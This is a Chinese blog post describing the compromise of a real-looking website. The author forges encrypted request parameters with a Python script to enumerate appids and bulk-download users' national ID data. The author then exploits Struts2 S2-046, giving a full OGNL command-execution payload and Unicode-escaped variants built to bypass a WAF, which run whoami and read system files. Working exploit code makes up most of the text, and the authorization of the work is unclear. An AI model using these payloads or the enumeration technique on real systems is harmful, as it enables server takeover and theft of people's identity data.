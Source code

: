 ```yaml
---
layout: post
title: struts2 绕过记录
date: 2019-12-22
category: webmemeber
---
```

# 记一次struts2 代码执行漏洞waf绕过

* 工作拿到一个网站www.xxxx.com,网站由于特殊性，参数都是进行加密处理。比如一个数据包会将所有参数的值按照不同规则拼接然后
进行md5加密，渗透入侵这种网站很难，无法修改参数，需要写解密程序，在进行一些功能探索后，发现了一个漏洞点。在申请后有一个下载身份功能，然后我通过编写参数解密程序遍历了appid，获取到了大量用户的身份证数据
参数解密代码为
```
with open('8.txt', 'r') as f:
    for i, name in enumerate(f.readlines()):
        ss = "xxxxxxxx".format(name.strip("\n"))
        new_ss = base64.b64encode(ss.encode('utf-8'))
        newss = "xxxxxxx"+str(new_ss,
                    'utf-8')
        # print(newss)
        m = hashlib.md5()
        m.update(newss.encode("utf8"))
        basestring = "xxxxxxxxxxxxx".format(
            ios=str(new_ss, 'utf-8'), sign=m.hexdigest().upper())
        with open("99.txt", 'a') as a:
            a.write(basestring + "\n")
```
由此遍历出所有存在的appid
* 转折点，通过访问/upload.do 发现了直接500错误
```
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ConversionErrorInterceptor.intercept(ConversionErrorInterceptor.java:138)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ParametersInterceptor.doIntercept(ParametersInterceptor.java:254)
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ParametersInterceptor.doIntercept(ParametersInterceptor.java:254)
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.StaticParametersInterceptor.intercept(StaticParametersInterceptor.java:191)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.MultiselectInterceptor.intercept(MultiselectInterceptor.java:73)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.CheckboxInterceptor.intercept(CheckboxInterceptor.java:91)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.FileUploadInterceptor.intercept(FileUploadInterceptor.java:252)
```
发现存在strut2框架 于是我使用工具去跑 无果 因为有waf 然后通过一些简单的payload 发现了存在struts2-046漏洞 poc如下
```
%{(#sasxke='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println('['+'tttpppppp'+'111]')).(#o.close())}"]
```
但是使用部分cmd exp 无法成功
```
%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cmd /c dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"]
```
还是无法绕过waf 之后通过java特新 unicode编码执行代码 exp
```
%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):(\u0028\u0023\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u005b\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0041\u0063\u0074\u0069\u006f\u006e\u0043\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u0027\u005d\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u003d\u0023\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u002e\u0067\u0065\u0074\u0049\u006e\u0073\u0074\u0061\u006e\u0063\u0065\u0028\u0040\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u006f\u0067\u006e\u006c\u002e\u004f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u0040\u0063\u006c\u0061\u0073\u0073\u0029\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u002e\u0067\u0065\u0074\u0045\u0078\u0063\u006c\u0075\u0064\u0065\u0064\u0050\u0061\u0063\u006b\u0061\u0067\u0065\u004e\u0061\u006d\u0065\u0073\u0028\u0029\u002e\u0063\u006c\u0065\u0061\u0072\u0028\u0029\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u002e\u0067\u0065\u0074\u0045\u0078\u0063\u006c\u0075\u0064\u0065\u0064\u0043\u006c\u0061\u0073\u0073\u0065\u0073\u0028\u0029\u002e\u0063\u006c\u0065\u0061\u0072\u0028\u0029\u0029\u002e\u0028\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0073\u0065\u0074\u004d\u0065\u006d\u0062\u0065\u0072\u0041\u0063\u0063\u0065\u0073\u0073\u0028\u0023\u0064\u006d\u0029\u0029\u0029\u0029\u002e\u0028\u0023\u0063\u006d\u0064\u003d\u0027\u0073\u0079\u0073\u0074\u0065\u006d\u0069\u006e\u0066\u006f\u0027\u0029\u002e\u0028\u0023\u0069\u0073\u0077\u0069\u006e\u003d\u0028\u0040\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0079\u0073\u0074\u0065\u006d\u0040\u0067\u0065\u0074\u0050\u0072\u006f\u0070\u0065\u0072\u0074\u0079\u0028\u0027\u006f\u0073\u002e\u006e\u0061\u006d\u0065\u0027\u0029\u002e\u0074\u006f\u004c\u006f\u0077\u0065\u0072\u0043\u0061\u0073\u0065\u0028\u0029\u002e\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0073\u0028\u0027\u0077\u0069\u006e\u0027\u0029\u0029\u0029\u002e\u0028\u0023\u0063\u006d\u0064\u0073\u003d\u0028\u0023\u0069\u0073\u0077\u0069\u006e\u003f\u007b\u0027\u0063\u006d\u0064\u002e\u0065\u0078\u0065\u0027\u002c\u0027\u002f\u0063\u0027\u002c\u0023\u0063\u006d\u0064\u007d\u003a\u007b\u0027\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068\u0027\u002c\u0027\u002d\u0063\u0027\u002c\u0023\u0063\u006d\u0064\u007d\u0029\u0029\u002e\u0028\u0023\u0070\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0050\u0072\u006f\u0063\u0065\u0073\u0073\u0042\u0075\u0069\u006c\u0064\u0065\u0072\u0028\u0023\u0063\u006d\u0064\u0073\u0029\u0029\u002e\u0028\u0023\u0070\u002e\u0072\u0065\u0064\u0069\u0072\u0065\u0063\u0074\u0045\u0072\u0072\u006f\u0072\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0074\u0072\u0075\u0065\u0029\u0029\u002e\u0028\u0023\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u003d\u0023\u0070\u002e\u0073\u0074\u0061\u0072\u0074\u0028\u0029\u0029\u002e\u0028\u0023\u0072\u006f\u0073\u003d\u0028\u0040\u006f\u0072\u0067\u002e\u0061\u0070\u0061\u0063\u0068\u0065\u002e\u0073\u0074\u0072\u0075\u0074\u0073\u0032\u002e\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0041\u0063\u0074\u0069\u006f\u006e\u0043\u006f\u006e\u0074\u0065\u0078\u0074\u0040\u0067\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0028\u0029\u002e\u0067\u0065\u0074\u004f\u0075\u0074\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u0029\u0029\u002e\u0028\u0040\u006f\u0072\u0067\u002e\u0061\u0070\u0061\u0063\u0068\u0065\u002e\u0063\u006f\u006d\u006d\u006f\u006e\u0073\u002e\u0069\u006f\u002e\u0049\u004f\u0055\u0074\u0069\u006c\u0073\u0040\u0063\u006f\u0070\u0079\u0028\u0023\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u002e\u0067\u0065\u0074\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u002c\u0023\u0072\u006f\u0073\u0029\u0029\u002e\u0028\u0023\u0072\u006f\u0073\u002e\u0066\u006c\u0075\u0073\u0068\u0028\u0029)}"]
```


redirect:%24%7B\u0023\u0062\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0046\u0069\u006c\u0065\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0027\u0063\u003a\u002f\u0077\u0069\u006e\u0064\u006f\u0077\u0073\u002f\u0077\u0069\u006e\u002e\u0069\u006e\u0069\u0027\u0029\u0029\u002c\u0023\u0063\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0052\u0065\u0061\u0064\u0065\u0072\u0028\u0023\u0062\u0029\u002c\u0023\u0064\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0042\u0075\u0066\u0066\u0065\u0072\u0065\u0064\u0052\u0065\u0061\u0064\u0065\u0072\u0028\u0023\u0063\u0029\u002c\u0023\u0065\u003d\u006e\u0065\u0077\u0020\u0063\u0068\u0061\u0072\u005b\u0035\u0030\u0030\u0030\u0030\u005d\u002c\u0023\u0064\u002e\u0072\u0065\u0061\u0064\u0028\u0023\u0065\u0029\u002c\u0023\u006d\u0061\u0074\u0074\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0027\u0029\u002c\u0023\u006d\u0061\u0074\u0074\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0070\u0072\u0069\u006e\u0074\u006c\u006e\u0028\u0023\u0065\u0029%7d




cmd.exe -c whoami
redirect:%24%7B\u0023\u0072\u0065\u0073\u0070\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0027\u0029\u002c\u0023\u0072\u0065\u0071\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0071\u0075\u0065\u0073\u0074\u0027\u0029\u002c\u0023\u0061\u003d\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0050\u0072\u006f\u0063\u0065\u0073\u0073\u0042\u0075\u0069\u006c\u0064\u0065\u0072\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u005b\u005d\u007b\u0027\u0063\u006d\u0064\u002e\u0065\u0078\u0065\u0027\u002c\u0027\u002f\u0063\u0027\u002c\u0027\u0077\u0068\u006f\u0061\u006d\u0069\u0027\u007d\u0029\u0029\u002e\u0073\u0074\u0061\u0072\u0074\u0028\u0029\u002c\u0023\u0062\u003d\u0023\u0061\u002e\u0067\u0065\u0074\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u002c\u0023\u0064\u0069\u0073\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0044\u0061\u0074\u0061\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0023\u0062\u0029\u002c\u0023\u0062\u0075\u0066\u003d\u006e\u0065\u0077\u0020\u0062\u0079\u0074\u0065\u005b\u0032\u0030\u0030\u0030\u0030\u005d\u002c\u0023\u0064\u0069\u0073\u002e\u0072\u0065\u0061\u0064\u0028\u0023\u0062\u0075\u0066\u0029\u002c\u0023\u006d\u0073\u0067\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0023\u0062\u0075\u0066\u0029\u002c\u0023\u0064\u0069\u0073\u002e\u0063\u006c\u006f\u0073\u0065\u0028\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0070\u0072\u0069\u006e\u0074\u006c\u006e\u0028\u0023\u006d\u0073\u0067\u002e\u0074\u0072\u0069\u006d\u0028\u0029\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0066\u006c\u0075\u0073\u0068\u0028\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0063\u006c\u006f\u0073\u0065\u0028\u0029%7D


成功拿下网站 


## 总结
* 遇到这种网站如果无法解密加密方式 无法对网站进行渗透
* 通过其他途径入侵web系统 如报错中的使用的漏洞框架
* 针对java的waf绕过方式的总结
